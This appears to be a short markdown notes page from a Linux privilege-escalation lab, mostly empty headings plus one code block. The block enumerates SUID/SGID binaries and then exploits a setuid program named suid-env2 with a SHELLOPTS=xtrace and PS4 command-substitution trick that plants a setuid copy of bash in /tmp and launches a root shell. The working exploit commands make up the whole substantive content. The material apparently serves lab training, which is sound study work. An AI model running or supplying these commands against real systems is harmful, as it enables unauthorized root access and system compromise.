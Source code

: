 # TEST SETUP/ENVIRONMENT

# MANUAL ENUMERATION 

# AUTOMATED ENUMERATION 

# MISCONFIGURATIONS/VULNERABILITIES EXPLOITATION 

## CATEGORY "SUID / SGID EXECUTEABLES" - ABUSING SHELL FEATURES 2

```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2

/tmp/rootbash -p

rm /tmp/rootbash

exit
```
